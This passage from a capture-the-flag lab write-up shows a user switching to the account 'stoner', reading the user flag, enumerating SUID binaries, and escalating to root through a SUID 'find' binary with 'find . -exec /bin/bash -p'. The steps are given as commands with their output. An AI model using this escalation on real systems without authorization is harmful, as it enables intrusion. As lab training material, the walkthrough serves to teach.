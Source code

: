 ```bash
$ su stoner 
Password: 
stoner@Vulnerable:/home/basterd$ whoami
stoner
```

## Shell as Stoner

Once as `stoner`, we can read the `user.txt` flag, located at `/home/stoner/.secret`.

```bash
stoner@Vulnerable:~$ cat /home/stoner/.secret 
You **** ** till ****, **** done.
```

Checking for `sudoers` privileges we found something, but it's the owner of the machine messing with us again :).

```bash
stoner@Vulnerable:~$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```

So let's keep enumerating, checking for `SUID` binaries, we found that we can execute the `find` binary as `root`.

```bash
stoner@Vulnerable:~$ find / -perm -4000 2>/dev/null

<REDACTED>

/usr/bin/find

<REDACTED>
```

Checking the `find` binary at [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) we can gain privileges with the next command.

```bash
stoner@Vulnerable:~$ find . -exec /bin/bash -p \; -quit  
bash-4.3# whoami
root
```

Once as `root` we can read the `root.txt` flag, located at `/root/root.txt`.

```bash
bash-4.3# cat /root/root.txt 
It ****'* that ****, *** it?
```

---
## Final Thoughts
